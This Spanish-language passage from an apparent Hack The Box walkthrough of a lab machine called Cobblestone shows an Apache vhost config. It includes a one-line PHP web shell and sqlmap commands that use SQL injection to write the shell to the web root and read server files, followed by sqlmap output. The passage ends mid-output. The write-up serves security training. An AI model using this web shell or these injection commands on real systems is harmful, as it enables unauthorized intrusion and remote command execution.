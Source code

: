 ```
<VirtualHost *:80>
        ServerName vote.cobblestone.htb

        ServerAdmin cobble@cobblestone.htb
        DocumentRoot /var/www/vote

        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^vote.cobblestone.htb$
        RewriteRule /.* http://vote.cobblestone.htb/ [R]
</VirtualHost>
```

Veremos que el de `deploy` y `vote` esta en los siguiente directorios.

```
/var/www/deploy
/var/www/vote
```

Vamos a probar si podemos escribir una `shell.php` en `/var/www/vote` de esta forma:

### Shell con www-data (No escalada)

> shell.php

```php
<?php system($_GET["cmd"]); ?>
```

Ahora desde `sqlmap`:

```shell
sqlmap -r req.txt --method=POST --batch --file-write="shell.php" --file-dest="/var/www/vote/shell.php"
```

Pero veremos que no funciona por permisos, despues de un rato buscando y probando archivos desde la ruta expuesta del `config` de `apache2` veremos que existe un archivo llamado `user.php` en `html`.

```shell
sqlmap -r req.txt --method=POST --batch --file-read="/var/www/html/user.php"
```

Info:

```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:13:26 /2025-10-30/

[12:13:26] [INFO] parsing HTTP request from 'req.txt'
[12:13:27] [INFO] resuming back-end DBMS 'mysql'
[12:13:27] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=115'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
```